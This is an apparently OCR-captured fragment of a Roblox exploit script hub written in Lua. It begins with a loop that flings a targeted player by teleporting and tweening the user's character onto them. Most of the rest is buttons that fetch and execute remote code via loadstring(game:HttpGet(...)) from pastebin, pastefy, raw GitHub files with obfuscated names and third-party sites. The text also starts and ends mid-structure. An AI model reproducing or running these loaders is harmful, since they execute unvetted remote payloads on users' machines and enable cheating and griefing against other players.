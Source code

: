 while task.wait() do
	if target ~= nil and target:FindFirstAncestorOfClass("Workspace") and target ~= player.Character and player.Character:FindFirstChild("HumanoidRootPart") and target:FindFirstChild("HumanoidRootPart") then
		character = player.Character
		hrp = character.HumanoidRootPart
		thrp = target.HumanoidRootPart
		hrp.CFrame = thrp.CFrame * CFrame.Angles(math.rad(90),0,0) + thrp.CFrame.UpVector * -10
	end
	if target ~= nil and target:FindFirstAncestorOfClass("Workspace") and target ~= player.Character and player.Character:FindFirstChild("HumanoidRootPart") and target:FindFirstChild("HumanoidRootPart") then
		character = player.Character
		hrp = character.HumanoidRootPart
		thrp = target.HumanoidRootPart
		rot = thrp.CFrame*CFrame.Angles(math.rad(25),math.rad(25),math.rad(25))
		createtween(hrp, thrp.CFrame * CFrame.Angles(math.rad(90),0,0) + thrp.CFrame.UpVector * 1000000, 100000)
	end
end
    print("Clicked")
end)
Section:NewButton(".....", ".....", function(s)
loadstring(game:HttpGet(('https://pastefy.app/VYIAk3o1/raw'),true))()
    print("Clicked")
end)
Section:NewButton(".....", ".....", function(s)
loadstring(game:HttpGet(('https://pastefy.app/VYIAk3o1/raw'),true))()
    print("Clicked")
end)
Section:NewButton(".....", ".....", function(s)
loadstring(game:HttpGet("https://raw.githubusercontent.com/0Ben1/fe/main/obf_11l7Y131YqJjZ31QmV5L8pI23V02b3191sEg26E75472Wl78Vi8870jRv5txZyL1.lua.txt"))()
    print("Clicked")
end)
Section:NewButton("_-_-_-_-_", "_-_-_-_-_", function(s)
loadstring(game:GetObjects("rbxassetid://6695644299")[1].Source)()
    print("Clicked")
end)
Section:NewButton("-----", "-----", function(s)
loadstring(game:HttpGet('https://pastebin.com/raw/nG0yZs3Z'))()
    print("Clicked")
end)
Section:NewButton("_____", "_____", function(s)
loadstring(game:HttpGet("https://eternityhub.xyz/BetterRoblox/Loader"))()
    print("Clicked")
end)
Section:NewButton("/////", "/////", function(s)
loadstring(game:HttpGet("https://raw.githubusercontent.com/0Ben1/fe./main/L"))()
    print("Clicked")
end)
Section:NewButton("666", "666", function(s)
loadstring(game:HttpGet("https://raw.githubusercontent.com/sinret/rbxscript.com-scripts-reuploads-/main/apanel", true))()
    print("Clicked")
end)
Section:NewButton("Key666", "Key666", function(s)
loadstring(game:HttpGet(('https://raw.githubusercontent.com/manimcool21/Keyboard-FE/main/Protected%20(3).lua'),true))()
    print("Clicked")
end)
Section:NewButton("?????", "?????", function()
Instance.new("HopperBin", game.Players.LocalPlayer.Backpack).BinType = 4
game.Players.LocalPlayer.Character.Humanoid.WalkSpeed ​​= 20